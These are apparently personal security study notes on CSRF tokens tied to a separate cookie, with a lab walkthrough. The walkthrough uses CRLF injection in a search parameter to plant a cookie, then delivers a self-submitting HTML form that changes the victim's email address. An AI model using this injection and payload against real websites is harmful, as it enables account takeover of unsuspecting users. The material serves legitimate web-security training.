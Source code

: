 Some applications tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This usually occurs when an application uses two different frameworks, one for session handling and one for CSRF protection, which are not integrated together. For example:
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```
This situation is normally harder to exploit, since an attack is only possible if the website contains any behavior that allows an attacker to set a cookie in the victim's browser. In this case, an attacker can obtain a valid CSRF and session token from their own account, leverage a cookie-setting behavior to inject their cookie into the victim's browser and conduct an attack.
## Example Exploit
Imagine a shopping application that allows its users to change their email address and search for products within the store.

1. Login to your account. Submit the "Update email" form and intercept the request using Burp Proxy, then send the request to Burp Repeater.
2. In Burp Repeater, observe that changing the `session` cookie logs you out, but changing the `csrfKey` cookie merely results in the token being rejected, which may suggest that `csrfKey` cookie may not be strictly tied to the session.
3. Open incognito window and login to your another account, submit the "Update email" and send it to Burp Repeater.
4. Observe that if you swap the `csrfKey` cookie and `csrf` parameter from the first account to the second account, the request is accepted.
5. Back to the browser, perform a search and send the resulting request in Burp Repeater. Observe that the search term gets reflected in the `Set-Cookie` response header.
6. Confirm the search parameter is vulnerable to [CRLF Injection](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FCRLF%20Injection%2FIntroduction) by using the following value:
```txt
/?search=test%0d%0aSet-Cookie:%20csrfKey=uM3IBWr9qbdJgnV9DBqjXEOcdHG3rMPp%3b%20SameSite=None
```
7. Use the following payload for the attack
```html
<form action="https://vulnerable-website.com/my-account/change-email" method="post">
	<input type="hidden" name="email" value="pwned@normal-user.net" />
	<input type="hidden" name="csrf" value="fh6RhHzKaIRlyk2fzZJW1Xxxj6KVpDZp" />
</form>

<img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=uM3IBWr9qbdJgnV9DBqjXEOcdHG3rMPp%3b%20SameSite=None" onerror="document.forms[0].submit()">
```
8. Store the exploit then click "Deliver to victim" to solve the lab.